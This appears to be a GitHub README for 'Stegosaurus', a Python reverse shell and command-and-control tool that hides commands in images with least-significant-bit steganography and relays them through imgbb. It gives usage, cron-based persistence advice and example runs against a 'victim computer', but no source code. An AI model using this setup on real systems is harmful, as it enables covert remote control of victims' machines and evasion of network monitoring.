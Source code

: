 # Stegosaurus

A python reverse shell and command and control program that sends the command payloads hidden in images using steganography techniques to keep network traffic undetected. Least significant bit steganography is used, so the last two bits of the color of each pixel are changed slightly to be either a 0 or 1 and store data. The last two bits are the least significant, so changing them does not make enough difference in color to be noticeable to the human eye, and because the bits are modified and not added, the file size is not increased. See the image below for an example of changing the least significant bit.

![image](lsb.PNG)

## The Command and Control Program: control.py
Make an imgbb.com account and get an API key from API.imgbb.com to upload a payload, or use the offline option -o to only create a local payload file. 

```
Usage: control.py [OPTIONS] CARRIER [PAYLOAD]...

  Reverse shell control program that sends command and control payloads hidden
  in images using steganography techniques to keep network traffic undetected.

  Arguments:
      CARRIER: Image file to carry the payload
      PAYLOAD: Command to be run by reverse shell on victim computer

Options:
  -n, --name TEXT  Name of payload image file.  [default: secret]
  -o, --offline    Create payload file, but don't upload it anywhere. For
                   local use or use with a USB drive.
  --help           Show this message and exit.
```

Example usage:
```
Offline mode:
control.py "C:\Stegosaurus\img.PNG" ls -o
Success! Saved: C:\Stegosaurus\secret.PNG

Online mode:
control.py "C:\Stegosaurus\img.PNG" ls
Please input your imgbb.com API key, or run the code with the --offline option to only save the payload file locally: my_api_key
Success!
```

## The Reverse Shell: shell.py
Run the program with a CRON job and a script to check if there is a new image from your profile and this will continually run the newest command, or just run it once and run the command hidden in the newest posted image in your profile. 

```
Usage: shell.py [OPTIONS] USER

  Reverse shell control program that receives command and control payloads
  hidden in images using steganography techniques to keep network traffic
  undetected.

  Arguments:
      USER: The imgbb profile, found in the url https://<USER>.imgbb.com, that is connected to the control script.

Options:
  -n, --name TEXT  Name of payload image file.  [default: secret]
  -o, --offline    Don't connect to imgbb and instead use a local file path to
                   the payload file as the USER argument. For local use or use
                   with a USB drive.
  --help           Show this message and exit.
```

Example usage:
```
Offline mode:
shell.py -o "C:\Stegosaurus\secret.PNG"
C:\
(If given ls command in control.py to create payload for secret.png)

Online mode:
shell.py user_profile
Successfully downloaded payload image:  C:\Stegosaurus\secret.PNG
C:\
(If given ls command in control.py to create payload for secret.png)
```